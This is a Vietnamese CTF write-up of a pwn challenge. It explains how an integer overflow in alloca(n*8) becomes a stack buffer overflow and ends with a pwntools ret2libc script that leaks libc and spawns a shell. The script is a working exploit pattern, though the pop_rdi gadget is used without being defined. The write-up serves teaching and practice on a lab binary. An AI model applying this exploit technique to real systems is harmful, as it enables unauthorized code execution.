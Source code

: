 # IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  void *v4; // rsp
  unsigned __int64 v6; // [rsp+8h] [rbp-10h] BYREF
  unsigned __int64 *v7; // [rsp+10h] [rbp-8h]

  init();
  puts("Secret saver!");
  puts("How long is your secret?");
  printf("> ");
  __isoc99_scanf("%lu", &v6);
  v3 = 16 * ((8 * v6 + 23) / 0x10);
  while ( &v6 != (unsigned __int64 *)((char *)&v6 - (v3 & 0xFFFFFFFFFFFFF000LL)) )
    ;
  v4 = alloca(v3 & 0xFFF);
  if ( (v3 & 0xFFF) != 0 )
    *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8) = *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8);
  v7 = &v6;
  printf("Enter your secret: ");
  read_str((__int64)v7, v6);
  return 0;
}
```  

# Source 
```c
#include <stdio.h>
#include <alloca.h>
#include <unistd.h>

void init()
{
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

void read_str(char *buffer, unsigned long int n)
{
	char c;
	unsigned long int i = 0;
	while (i < n)
	{
		read(0, &c, 1);
		if (c == '\n')
			break;
		buffer[i] = c;
		i++;
	}
	buffer[i] = '\0';
}

int main()
{
	char *buffer;
	unsigned long int n;

	init();

	puts("Secret saver!");
	puts("How long is your secret?");
	printf("> ");
	scanf("%lu", &n);

	buffer = alloca(n*8);
	printf("Enter your secret: ");
	read_str(buffer, n);
}
```

* khi nhìn vào source ta thấy có hàm alloca() thì hàm này có chức năng tương tự như malloc là cấp phát bộ nhớ nhưng thay vì nằm trên heap như malloc thì alloca cấp phát bộ nhớ trên stack. ví dụ alloca(16) sẽ cấp phát 16 byte  
* khi nhìn vào source code ta thấy được ```alloca(n*8)``` thì ta phát hiện ở đây là lỗi IOF, ta sẽ lấy một ví dụ sau.

##### ví dụ
```c
#include <stdio.h>

int main()
{
    int a;
    scanf("%d", &a);
    printf("%d", a * 8);
}
```
[các kiểu dữ liệu và phạm vi](https://blog.luyencode.net/kieu-du-lieu-trong-c/#kieu-so-nguyen)  
phạm vi của int là ```-2,147,483,648 tới 2,147,483,647``` và em tính toán ```2147483647/8 = 268435455.875```, em thử với giá trị làm trò xuống ```268435455``` thì ```Output: 2147483640 ``` oke còn trong phạm vi, nhưng nếu e làm tròn lên ```268435456``` thì ```Output: -2147483648```, ta đã tràn phạm vi nên nó thành só âm =)))
* vậy nếu bây giờ, em thử khai báo một biến là long, sau đó gán biểu thức ```a*8``` thì kết quả như thế nào
```c
#include <stdio.h>
int main()
{
    int a;
    scanf("%d", &a);
    long b = a * 8;
    printf("%ld", b);
}
```
```input: 268435456 --- output: -2147483648``` =))) vậy qua phép thử trên và nhiều lần lập trình thì em hiểu là ```a*8``` nghĩa là ```(int) * (int) ```, thì ngôn ngữ C nó sẽ tự ép kiểu theo kiểu dữ liệu có phạm vi lớn nhất trong phép tính, trong trường hợp ``` int * int ``` thì nó sẽ tự hiểu là giá trị sau khi tính sẽ trả về dữ liệu int. Ví dụ trường hợp ```(int) * (long)``` thì giá trị trả về là long.
> từ những phép thử trên ta thấy lỗi IOF ở ```alloca(n * 8) ```
nghĩa là nếu ta nhập n sao cho n * 8 nó tràn ra phạm vi của unsigned long int để trả về giá trị nhỏ, hàm alloca sẽ cấp phát giá trị nhỏ đó và ta vẫn có thể nhập được số lượng kí tự lớn để BOF. 

# Thực thi
* Ở đây mỗi giá trị khác nhau cho ta những payload khác nhau về offset (giá trị nhỏ nhất là 0x2000000000000000), ở đây em chọn 0x2000000000000001
* Chạy thử debug thì ta đã đúng, khi ta đã cấp phát bộ nhớ nhỏ và số lượng kí tự nhập vào lớn  
![image](https://user-images.githubusercontent.com/111769169/222918324-d23d04d7-6676-4b7d-8b7b-77182c08da22.png)  
* việc sau đó là ret2libc
<details> <summary> script </summary>
	
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript='''
                    b*main+267
                    c
                    ''')
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()
    input()
    
    #################
    ### leak libc ###
    #################
    r.sendlineafter(b"> ", b'2305843009213693953')
    payload = b'a' * 40 + p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts']) + p64(exe.sym['main'])
    r.sendlineafter(b'secret: ', payload)

    ######################
    ### tinh base libc ###
    ######################
    leak = u64(r.recvline(keepends=False) + b'\0\0')
    log.info("leak libc: " + hex(leak))
    libc.address = leak - 0x783a0
    log.info("base libc: " + hex(libc.address))
    r.sendlineafter(b"> ", b'2305843009213693953')

    #################
    ### tao shell ###
    #################
    payload = b'a' * 40
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    r.sendlineafter(b'secret: ', payload)

    r.interactive()


if __name__ == "__main__":
    main()
```
	
</summary>
